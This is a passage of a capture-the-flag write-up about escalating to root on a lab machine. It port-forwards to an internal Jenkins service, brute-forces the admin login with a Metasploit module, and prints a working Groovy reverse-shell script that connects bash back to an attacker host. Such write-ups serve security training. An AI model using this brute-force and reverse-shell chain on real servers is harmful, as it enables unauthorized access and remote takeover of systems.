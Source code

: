 ## Privilege Escalation (Root)

```
$ cat jenkins.txt 

Internal Jenkins service is running on 172.17.0.2:8080
```
It looks like we're going to have to utilize SSH Port Forwarding to access this Internal Jenkins Instance running through Docker.

To setup the SSH Port-Forward run the following command on our kali machine:

```
$ ssh -L 9000:localhost:8080 aubreanna@internal.thm
```
[FalconSpy](https://twitter.com/0xFalconSpy) has a great post explaining [SSH Port-Forwarding/Tunneling.](https://medium.com/@falconspy/oscp-understanding-ssh-tunnels-519e31c698bf)

Now, if we visit `localhost:9000` in our browser, the Jenkins Instance should pop up.
![alt text](https://i.imgur.com/ASV9qnz.png "Jenkins Instance")

None of the credentials that we've gathered worked on this login page. So it looks like we're going to have to brute-force some new ones. Using the Metasploit module `auxiliary/scanner/http/jenkins_login`, we can enumerate a valid credential pair that will allow us access to the `Jenkins Server.`

```
msf5 auxiliary(scanner/http/jenkins_login) > set USERNAME admin
USERNAME => admin
msf5 auxiliary(scanner/http/jenkins_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
PASS_FILE => /usr/share/wordlists/rockyou.txt
msf5 auxiliary(scanner/http/jenkins_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/http/jenkins_login) > set RHOSTS localhost
RHOSTS => localhost
msf5 auxiliary(scanner/http/jenkins_login) > set RPORT 9000
RPORT => 9000
msf5 auxiliary(scanner/http/jenkins_login) > run
...
[+] 127.0.0.1:9000 - Login Successful: admin:sp*****ob
```

Using the credentials, we just found we are now able to authenticate with the Jenkins application successfully. Upon first glance, it seems there is no build history for us to see, so our next move is to try to gain code execution on the server running this Jenkins Application. 

If we navigate to `Manage Jenkins --> Script Console`, we will be able to execute an arbitrary [Groovy Script](http://www.groovy-lang.org/) and gain a [reverse shell](https://github.com/gquere/pwn_jenkins#reverse-shell-from-groovy). 

Reverse Shell for Groovy Console:
```
String host="10.10.X.X";
int port=4444;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Before running the script, make sure to setup a listener on your machine.
![alt text](https://i.imgur.com/3g9J0X9.png "Netcat Listener Jenkins")
